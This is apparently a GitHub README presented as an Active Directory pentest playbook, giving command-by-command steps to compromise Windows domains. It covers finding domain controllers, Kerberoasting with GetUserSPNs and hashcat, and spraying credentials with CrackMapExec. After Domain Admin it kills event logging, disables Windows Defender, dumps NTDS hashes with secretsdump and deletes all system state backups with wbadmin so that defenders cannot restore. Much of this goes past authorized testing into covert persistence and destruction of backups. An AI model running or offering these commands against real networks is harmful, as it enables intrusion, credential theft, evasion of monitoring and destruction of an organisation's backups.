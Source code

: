 # The Official phasetw0 Corporate Internal Active Directory Pentest Playbook and Knuckles
#### Written by [hypervis0r](https://twitter.com/hypervis0r)

I'll be adding more to this as I own more domains lol

## 🔎 Initial Access
___

#### Identify Target Machines
Identify domain controllers on the network using DNS
```bash
# Linux
dig _ldap._tcp.dc._msdcs.EXAMPLE.COM -t any
dig _ldap._tcp.dc._msdcs.EXAMPLE.COM -t srv

# Windows
nslookup -type=any _ldap._tcp.dc._msdcs.EXAMPLE.COM
nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM
```

Find potential Windows machines using `nmap` along with the network subnet or the given scope of the pentest.
```bash
nmap -p139,445,88,135,389,464 <subnet here> -oG - | awk '/Up$/{print $2}' > windows_boxes.txt
```

#### Low hanging Fruit
Check Windows boxes for common CVEs (EternalBlue, other SMB vulns I can't think of, etc.)
```bash
# nmap scan
nmap -sC -sV -oN box_scan.txt -iL windows_boxes.txt

# crackmapexec scan
cme smb ~/windows_boxes.txt
```

#### Identify critical users
Nine times out of ten, network administrators of a company are admins on the internal domain. Look for staff directories for the company to find potential users to phish/brute-force.
```bash
# Google dork to find staff directory of company
site:"evil.corp" staff directory
```

## 🚩 Lateral movement (after found creds)
___


```
/*
	TODO:
	More AD Flaws (Golden Ticket)
	LSSAS Dumping
*/
```

Repeat these steps for every new better set of credentials you get, all the way until you get Local Admin or Domain Admin.

#### Check common Active Directory flaws
##### Kerberoasting/AS-REPRoasting
Check for users with associated SPNs using impacket's `GetUserSPNs.py`.
```bash
python3 GetUserSPNs.py evil.corp/user:pass -dc-ip dc1.evil.corp -outputfile hashes.tgt
```
After gaining access to the TGT hashes, crack the user password using `hashcat` along with `rockyou.txt` and `OneRuleToRuleThemAll.rule`. This can take a while to crack, even on a powerful home PC.  Unless you have a dedicated cracking machine, I recommend spinning up an Azure instance (specifically `Standard NC6s_v3`).
```bash
hashcat -m 13100 -w 4 -a 0 hashes.tgt rockyou.txt --rule OneRuleToRuleThemAll.rule
```
If no hashes could be cracked, it is unlikely the password is brute-forcable, and you should move on.

#### Pop shell to investigate
Find machines you can potentially log into using your credentials. You can accomplish this using CrackMapExec along with the `windows_boxes.txt` list to scan every windows box, along with its SMB shares, with your creds.
```bash
# Check for shells
cme smb ~/windows_boxes.txt -u 'user' -p 'pass'

# Check for open SMB shares
cme smb ~/windows_boxes.txt -u 'user' -p 'pass' --shares
```

After you gain a shell (or find an interesting open share), look around for saved password files, ways to escalate to local admin, "goodies", etc.

## 🔥 Next steps after Domain Admin
___

#### OPSEC (***These Steps are important!!!***)
Kill the Windows Event Logging service using [phant0m](https://github.com/hlldz/Phant0m) or some other method.

Disable the Windows Defender service, and look for any other EDRs to possibly disable before continuing.
```bash
# Stop the Windows Defender service, then disable it
sc stop "WinDefend"
sc config "WinDefend" start= disabled
```

#### Persistence
Run impacket's `secretsdump.py` to dump NTLM hashes from SAM, NTDS.DIT, and other hives.
```bash
python3 secretsdump.py evil.corp/Administrator:password@dc1.evil.corp 
```

#### Check for backups
You wouldn't want to get discovered and risk a full wipe + backup, would you? If you are looking to make yourself at home for a long time, you may want to look for system backups and promptly destroy them.
```bash
# Delete all system state backups
wbadmin delete systemstatebackup -keepVersions:0
```

#### Enterprise Admin?
The domain you have just owned may have been a child domain of a larger parent domain. Exploit trust boundaries to gain Enterprise Admin, and own the whole tri-state area!

```bash
# Get list of domain trusts to find new DCs to own
nltest /domain_trusts
```

## 📕 References
___

https://social.technet.microsoft.com/wiki/contents/articles/1772.windows-ports-protocols-and-system-services.aspx

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

https://github.com/SecureAuthCorp/impacket

https://github.com/byt3bl33d3r/CrackMapExec

https://security.stackexchange.com/questions/76459/how-to-locate-a-domain-controller-on-a-windows-network-when-not-a-member

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain